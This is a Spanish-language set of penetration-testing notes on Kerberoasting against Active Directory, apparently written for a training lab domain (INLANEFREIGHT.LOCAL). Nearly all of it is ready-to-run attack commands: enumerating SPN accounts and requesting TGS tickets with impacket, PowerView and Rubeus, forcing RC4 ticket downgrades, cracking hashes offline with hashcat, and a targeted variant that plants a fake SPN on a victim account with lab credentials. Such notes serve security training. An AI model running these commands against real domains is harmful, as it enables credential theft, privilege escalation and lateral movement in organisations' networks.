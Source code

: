 #kerberoasting
Técnica de escalada de privilegios y movimiento lateral. Se atacan cuentas asociadas a SPN solicitando tickets TGS, para posteriormente crackearlos con hashcat. Cualquier usuario autenticado en el AD puede solictar un ticket TGS.
## Linux
Necesitamos tener credenciales de acceso (texto plano o NTML hash) y una shell en el contexto del usuario de dominio o `SYSTEM` shell. En los ejemplos suponemos que tenemos acceso al dominio con el usuario `forend`
- Listar cuentas SPN - GetUserSPNs.py 
	```bash
	impacket-GetUserSPNs -dc-ip $dcip INLANEFREIGHT.LOCAL/forend
	```
- Solicitar todos los tickets TGS (añadir la flag `-requets` al comando anterior)
	```bash
	GetUserSPNs.py -dc-ip $dcip INLANEFREIGHT.LOCAL/forend -request -outputfile allTickets
	```
- Solicitar el ticket de un solo servicio (ej: `sqldev`)
	```bash
	GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev
	```

### Windows 
Se podría hacer de forma semi-manual si no funciona ninguna de estas opciones (documentado en notion)
#### Powerview
- Único target
	```powershell
	Import-Module .\PowerView.ps1 
	Get-DomainUser * -spn | select samaccountname 
	# Supongamos que a partir de aquí seleccionamos como objetivo sqldev 
	Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
	```
- Exportar todos los tickets en csv
	```powershell
	Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
	```
 
#### Rubeus
Tiene alguna opción adicional a las de PowerView
- Obtener información sobre tickts TGS
	```powershell
	.\Rubeus.exe kerberoast /stats
	```
- Extraer todos los tickets TGS
	```powershell
	.\Rubeus.exe kerberoast /nowrap
	.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
	```
- Extraer los tickets de las cuentas más valiosas (`admincount=1`)
	```powershell
	.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
	```
- Extraer spn de un servicio concreto (ej: `sqldev` )
#### Cambiando el formato del hash (downgrading) - hasta Windows Server 2019 
Las cuentas de servicio que tienen encriptación `AES 128/256`, también pueden ser craqueadas, pero el proceso es mucho más lento. (se podría hacer con `hashcat -m 19700`)
- Forzar a generar un ticket con encriptación `RC4 HMAC`
	```powershell
	.\Rubeus.exe kerberoast /tgtdeleg /user:testspn /nowrap
	```
### Craquear offline los tickets - hashcat
```bash
hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt
```
- Una vez craqueado, lo consideramos como un usuario más (podemos intentar rdp ó impacket-psexec o similar sobre él)

## Kerberoasting dirigido
La idea es tratar de craquear la cuenta de usuario que queramos creando un SPN falso asociado a ese usuario. Para poder realizar un ataque de este tipo necesitamos tener la capacidad de modificar o agregar SPNs en una cuenta de usuario. 
### Requisitos

| Permiso           | Descripción                                                  | Impacto en Kerberoasting Dirigido                     |
| ----------------- | ------------------------------------------------------------ | ----------------------------------------------------- |
| **GenericAll**    | Control total sobre el objeto.                               | Modifica cualquier atributo, incluido SPN.            |
| **GenericWrite**  | Escritura en cualquier atributo del objeto.                  | Permite añadir/modificar SPNs.                        |
| **WriteProperty** | Escritura en atributos específicos (`servicePrincipalName`). | Modifica solo atributos seleccionados.                |
| **WriteDACL**     | Modificación de la DACL para otorgarse permisos adicionales. | Otorga permisos como `GenericWrite` sobre SPN.        |
| **Self**          | Permite modificar ciertos atributos del propio objeto.       | Puede modificar su propio SPN si tiene `Self` en SPN. |
### Ataque 
- Creamos un objeto de tipo `$Cred` con las credenciales de un usuario que tenga permisos para crear un SPN (ej: `damundsen`)
	```powershell
	$pass = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force 
	$cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen',$pass )
	```
- Creamos un fake SPN con PowerView para el usuario que queramos comprometer (ej: `adunn`) - `Set-DomainObject`
```powershell
Set-DomainObject -Credential $cred -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```
- Obtenemos información sobre el ticket creado con `rubeus`
	```powershell
	.\Rubeus.exe kerberoast /user:adunn /nowrap
	```
- Tratamos de craquear el ticket con `hashcat -m 13100`